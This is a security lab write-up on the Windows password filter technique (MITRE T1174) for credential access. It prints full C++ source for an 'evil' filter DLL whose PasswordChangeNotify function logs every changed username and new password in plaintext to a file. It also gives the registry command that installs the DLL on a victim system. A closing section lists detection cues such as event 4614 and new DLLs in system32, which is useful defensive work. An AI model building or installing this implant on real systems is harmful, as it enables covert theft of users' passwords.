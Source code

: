 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That, of course means, that the password can be intercepted and logged.

## Execution

Password filters are registered in registry and we can see them here:

{% code title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode %}

Or via regedit:

![](../../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported correctly in order for this technique to work, since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
    FILE *pFile;
    fopen_s(&pFile, "c:\\logFile.txt", "a+");

    if (NULL == pFile)
    {
        return;
    }
    fprintf(pFile, "%s\r\n", szString);
    fclose(pFile);
    return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
    OutputDebugString(L"InitializeChangeNotify");
    writeToLog("InitializeChangeNotify()");
    return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
    PUNICODE_STRING AccountName,
    PUNICODE_STRING FullName,
    PUNICODE_STRING Password,
    BOOLEAN SetOperation)
{
    OutputDebugString(L"PasswordFilter");
    return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
    PUNICODE_STRING UserName,
    ULONG RelativeId,
    PUNICODE_STRING NewPassword)
{
    FILE *pFile;
    fopen_s(&pFile, "c:\\logFile.txt", "a+");

    OutputDebugString(L"PasswordChangeNotify");
    if (NULL == pFile)
    {
        return true;
    }
    fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
    fclose(pFile);
    return 0;
}
```

{% file src="../../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victim system:

{% code title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode %}

![](../../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../../.gitbook/assets/password-filter-createdtime.png)

Also, it may be worth considering checking new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify`function:

![](../../.gitbook/assets/password-filter.png)

## References

{% embed url="http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html" caption="" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1174" caption="" %}

